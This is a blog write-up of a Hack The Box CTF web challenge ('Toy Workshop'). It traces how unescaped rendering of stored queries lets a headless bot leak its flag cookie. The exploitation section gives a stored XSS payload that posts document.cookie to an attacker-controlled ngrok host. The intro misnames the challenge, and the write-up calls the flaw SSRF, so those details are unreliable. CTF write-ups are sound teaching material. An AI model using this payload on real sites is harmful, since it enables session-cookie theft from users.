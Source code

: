 ## HTB Cyber Santa CTF 2021: Toy Workshop

# Introduction

> The work is going well on Santa's toy workshop but we lost contact with the manager in charge! We suspect the evil elves have taken over the workshop, can you talk to the worker elves and find out?

This is a complete write-up for the badRansomware challenge at Business CTF 2021 hosted by Hack The Box. This article is a part of the HTB Business CTF 2021 series.

Learn more from additional readings found at the end of the article. I would be thankful if you mention me when using parts of this article in your work. Enjoy!

# Basic information

| #     |   |
|:--    |:--|
|Type    | Jeopardy CTF / Web |
|Organized  by | [Hack The Box](https://www.hackthebox.com/events/santa-needs-your-help)
|Name    | ** HTB Cyber Santa CTF / Toy Workshop** |
|URLs    | https://ctftime.org/event/1523/ |
| | https://ctf.hackthebox.com/ctf/249| 
|Author  | **Asentinn** / OkabeRintaro|
|       | [https://ctftime.org/team/152207](https://ctftime.org/team/152207)

> 🔔 `CyberEthical.Me` is maintained purely from your donations - consider one-time sponsoring with the [Sponsor](/sponsor) button or 🎁 [become a Patron](https://www.patreon.com/cyberethicalme) which also gives you some bonus perks. 
Join our [Discord Server](https://discord.com/invite/5MjU4Cxf3R)!

%%[bmac-button]

# Recon

We have a downloadable content and docker instance to spin up.

By reading the source code, we can establish the flow of the application. There is a `toy_workshop.db` database

```js
//index.js
const db = new Database('toy_workshop.db');
```

that holds a `queries` table.

```sql
--datbase.js
DROP TABLE IF EXISTS queries;

CREATE TABLE IF NOT EXISTS queries (
    id          INTEGER      NOT NULL PRIMARY KEY AUTOINCREMENT,
    query       VARCHAR(500) NOT NULL,
    created_at  TIMESTAMP    DEFAULT CURRENT_TIMESTAMP
);
```

The application can interact with that table through following queries:

```sql
--database.js

--addQuery(query)
INSERT INTO queries (query) VALUES (?)

--getQueries()
SELECT * FROM queries
```

The only way we can interact with the database is to insert new query

```js
//routes/index.js
router.post('/api/submit', async (req, res) => {

		const { query } = req.body;
		if(query){
			return db.addQuery(query)
				.then(() => {
					bot.readQueries(db);
					res.send(response('Your message is delivered successfully!'));
				});
		}
		return res.status(403).send(response('Please write your query first!'));
});
```

because `/queries` call can be executed only from the `localhost`.

```js
//routes/index.js
router.get('/queries', async (req, res, next) => {
	if(req.ip != '127.0.0.1') return res.redirect('/');

	return db.getQueries()
		.then(queries => {
			res.render('queries', { queries });
		})
		.catch(() => res.status(500).send(response('Something went wrong!')));
});
```

The `/queries` endpoint is called by the browser emulator - [Puppeteer]().

```js
//bot.js
const puppeteer = require('puppeteer');

const browser_options = {
	headless: true,
	//...
};

const cookies = [{
	'name': 'flag',
	'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'
}];

const readQueries = async (db) => {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		await page.goto('http://127.0.0.1:1337/');
		await page.setCookie(...cookies);
		await page.goto('http://127.0.0.1:1337/queries', {
			waitUntil: 'networkidle2'
		});
		await browser.close();
		await db.migrate();
};

module.exports = { readQueries };`
```

When analyzing the bot's `readQueries` function and the `/api/submit` endpoint code, we have the clear situation.

1. Submitting the new query (adding row to `queries` table) executes the `bot.readQueries()` function.
2. Bot opens the web application page: `http://127.0.0.1:1337/`
3. Bot sets cookie `flag=HTB{.*}`.
4. Queries are read by rendering the `views/queries.hbs` view without any sanitization.
```js
//views/queries.hbs
 <div class="dash-frame">
    {{#each queries}}
            <p>{{{this.query}}}</p>
        {{else}}
            <p class="empty">No content</p>
        {{/each}}
</div>
```

There is a potential SSRF (*Server Side Request Forgery*) with *Sensitive Data Exposure* vulnerability.

# Weaponizing

We should be able to push into the `queries` table the malicious JS code that would read the `flag` cookie and sends it back somehow, so we can read the flag. I found this pattern easy to recognize because I was participating in the HTB Cyber Apocalypse CTF this year (2021) and watched some John Hammond video about Alien Journal (see [Additional readings](#heading-additional-readings)).

So, what I did is I set up a simple `ngrok` tunnel on my machine without listener on my end. I can do that because `ngrok` provides a nice dashboard under `localhost:4040` so I can see the incoming connections.

# Exploitation

With that ready, I write an API call to insert the malicious JS into the queries table.

```js
var q = "<script>fetch('http://****-**-***-***-***.ngrok.io/flag', {method:'POST', body: document.cookie});</script>";
fetch('/api/submit', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify({query: q}),
    })
    .then((response) => response.json()
        .then((resp) => {
            console.log(resp);
        }))
    .catch((error) => {
        console.log(error)
    });
```

![2021-12-01-14-37-35.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1638741878576/z7rD-jaNq.png)

# Additional readings

> 📌 Follow the `#CyberEthical` hashtag on the social media  
> 🎁 Become a Patron and [gain additional benefits](https://www.patreon.com/cyberethicalme)  
> 👾 Join CyberEthical [Discord server](https://discord.com/invite/5MjU4Cxf3R)  
> 👉 Instagram: [@cyber.ethical.me](https://www.instagram.com/cyber.ethical.me/)  
> 👉 LinkedIn: [CyberEthical.Me](https://www.linkedin.com/company/cyberethical-me)  
> 👉 Twitter: [@cyberethical_me](https://twitter.com/cyberethical_me)  
> 👉 Facebook: [@CyberEthicalMe](https://facebook.com/CyberEthicalMe)  

* [Cloudflare CDN CSP - XSS Bypass / HackTheBox Cyber Apocalypse CTF](https://www.youtube.com/watch?v=uU_tvQPCBUo) by John Hammond
* [OWASP Top 10:2021
A10 Server Side Request Forgery (SSRF)](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/) @ OWASP
* [Cross Site Scripting](https://owasp.org/www-community/attacks/xss/) @ OWASP

> Do you like what you see? Join the [Hashnode.com](https://blog.cyberethical.me/join) now and start publishing. Things that are awesome:  
>✔ Automatic GitHub Backup  
>✔ Write in Markdown  
>✔ Free domain mapping  
>✔ CDN hosted images  
>✔ Free built-in newsletter service  
>✔ Built-in blog monetizing through the Sponsor feature  
> By using my link, you can help me unlock the ambassador role, which cost you nothing and gives me some additional features to support my content creation mojo.


